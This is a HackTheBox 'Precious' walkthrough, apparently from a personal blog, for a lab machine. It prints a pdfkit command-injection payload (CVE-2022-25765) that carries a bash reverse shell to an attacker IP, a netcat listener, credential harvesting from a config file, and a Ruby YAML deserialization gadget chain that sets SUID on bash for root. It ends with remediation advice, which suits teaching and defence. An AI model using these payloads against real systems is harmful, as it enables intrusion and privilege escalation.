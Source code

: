 ```yaml
---
layout: post
title: "HackTheBox - Precious Walkthrough"
categories: [CTF, HackTheBox, Web Exploitation]
tags: [CTF, ruby, command-injection, privilege-escalation, yaml-deserialization]
---
```


Precious is an easy-rated Linux box on HackTheBox that focuses on web exploitation through command injection in a PDF generator service, followed by privilege escalation via YAML deserialization. This box is perfect for practicing enumeration and understanding how seemingly innocent features can be weaponized.

## Reconnaissance

### Nmap Scan

Starting with an nmap scan to identify open ports and services:

```bash
nmap -sC -sV -oA nmap/precious 10.10.11.189
```

**Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1
80/tcp open  http    nginx 1.18.0
```

Two services running - SSH on port 22 and HTTP on port 80. The web service is our likely entry point.

### Web Enumeration

Visiting `http://10.10.11.189` reveals a simple web application that converts web pages to PDF files. The application accepts a URL and returns a PDF version of the page.

![Precious Web App](/images/precious-webapp.png)

The application is using a Ruby framework based on the HTTP headers. Let's test if it's vulnerable to command injection or SSRF.

## Initial Foothold

### Command Injection in PDF Generator

I set up a simple Python HTTP server to host a test page:

```bash
python3 -m http.server 8000
```

When submitting my machine's IP to the PDF generator, I noticed the application successfully fetches and converts the page. More importantly, the generated PDF contains metadata that reveals the underlying tool:

```bash
exiftool precious.pdf
```

**Output:**
```
Creator         : Generated by pdfkit v0.8.6
```

Searching for `pdfkit 0.8.6 vulnerabilities` reveals **CVE-2022-25765** - a command injection vulnerability in older versions of pdfkit.

### Exploiting CVE-2022-25765

The vulnerability allows command injection through URL parameters. I crafted a malicious URL:

```
http://10.10.14.5:8000/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"`'}
```

Setting up a netcat listener:

```bash
nc -lvnp 4444
```

After submitting the crafted URL to the PDF generator, I received a reverse shell as user `ruby`!

```bash
ruby@precious:~$ whoami
ruby
```

### User Flag

The user flag was found in `/home/ruby/user.txt`:

```bash
cat /home/ruby/user.txt
f5a[REDACTED]e21
```

## Privilege Escalation

### Enumeration as Ruby User

Looking around the home directory, I found a `.bundle/config` file containing credentials:

```bash
cat ~/.bundle/config
```

```yaml
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c[REDACTED]dZqqT"
```

These credentials worked for SSH access as user `henry`:

```bash
ssh henry@10.10.11.189
```

### Privilege Escalation to Root

Checking sudo privileges for henry:

```bash
sudo -l
```

**Output:**
```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Henry can run a Ruby script as root. Let's examine it:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

The script uses `YAML.load()` to parse a `dependencies.yml` file from the current directory. This is vulnerable to **YAML deserialization attacks**!

### YAML Deserialization Attack

I created a malicious `dependencies.yml` file that will execute a command when loaded:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetch
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

Running the script with sudo:

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

This sets the SUID bit on `/bin/bash`, allowing us to spawn a root shell:

```bash
bash -p
bash-5.1# whoami
root
```

### Root Flag

```bash
cat /root/root.txt
b5a[REDACTED]f2c
```

## Key Takeaways

1. **Always check tool versions** - The PDF metadata revealed pdfkit version, leading to the CVE discovery
2. **Credentials in config files** - Found hard-coded credentials in `.bundle/config`
3. **YAML.load() is dangerous** - Using `YAML.safe_load()` would have prevented the deserialization attack
4. **Defense in depth** - Multiple vulnerabilities chained together for full compromise

## Remediation

- Update pdfkit to version 0.8.7.2 or later
- Use `YAML.safe_load()` instead of `YAML.load()`
- Never hard-code credentials in configuration files
- Implement proper input validation for URL parameters
- Restrict sudo permissions to specific file paths, not user-controlled directories

---

**Box Info:**
- **Difficulty**: Easy
- **OS**: Linux
- **Release Date**: November 2022
- **IP**: 10.10.11.189

Thanks for reading! Feel free to reach out on [Twitter](https://twitter.com/MasonPrince93) if you have questions or want to discuss the box.
